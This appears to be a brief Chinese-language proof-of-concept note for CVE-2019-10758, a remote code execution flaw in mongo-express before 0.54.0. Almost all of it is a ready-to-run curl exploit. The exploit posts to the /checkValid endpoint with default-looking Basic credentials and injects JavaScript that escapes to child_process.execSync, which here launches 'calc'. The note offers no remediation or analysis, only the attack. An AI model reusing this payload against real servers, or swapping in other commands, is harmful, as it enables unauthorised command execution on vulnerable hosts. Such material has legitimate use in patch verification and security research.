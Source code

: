 # CVE-2019-10758:mongo-express RCE 无回显

影响版本：  
- mongo-express < 0.54.0  

exp:  
```
curl 'http://vulhost:8080/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("calc")'
```
[@masahiro331](https://github.com/masahiro331/CVE-2019-10758)
